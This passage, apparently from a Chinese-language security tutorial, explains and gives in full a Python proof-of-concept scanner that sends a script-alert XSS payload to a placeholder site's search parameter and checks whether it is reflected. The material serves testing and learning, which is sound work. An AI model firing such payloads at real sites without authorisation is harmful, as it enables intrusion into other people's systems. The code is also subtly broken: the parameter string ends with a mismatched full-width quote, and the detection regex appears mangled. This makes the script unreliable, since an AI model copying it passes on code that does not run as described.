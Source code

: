 配置了目标URL、参数名和测试负载。并调用test_reflected_xss函数，执行反射型XSS漏洞检测。根据检测结果，输出是否存在漏洞。

完整代码如下

~~~python
import requests
from urllib.parse import quote_plus

def test_reflected_xss(target_url, param_name, payload):
   
    # 编码payload防止URL解析错误
    encoded_payload = quote_plus(payload)
    
    # 构造恶意URL
    malicious_url = f"{target_url}?{param_name}={encoded_payload}"
    
    try:
        # 发送请求
        headers = {
            "User-Agent": "XSS-POC-Scanner/1.0",
            "Accept": "text/html"
        }
        response = requests.get(malicious_url, headers=headers, timeout=8)
        
        # 检测响应中是否包含原始payload（基础检测）
        if payload in response.text:
            return True
        
        # 进阶检测：HTML实体编码绕过
        if any(entity in response.text for entity in 
               [payload.replace("<", "&lt;"), payload.replace(">", "&gt;")]):
            print("[!] 检测到过滤机制：HTML实体编码")
            return False
            
        # 响应内容分析（正则表达式检测）
        import re
        if re.search(r"alert $.+?$ ", response.text):
            return True
            
    except requests.exceptions.RequestException as e:
        print(f"[!] 请求失败: {e}")
    
    return False

if __name__ == "__main__":

    TARGET = "http://vuln-site.com/search"
    PARAM = "query“
    PAYLOAD = "<script>alert('XSS_POC_安全测试')</script>"

    if test_reflected_xss(TARGET, PARAM, PAYLOAD):
        print(f"[+] 存在反射型XSS漏洞: {TARGET}?{PARAM}=[payload]")
    else:
        print("[-] 未检测到反射型XSS漏洞")
~~~
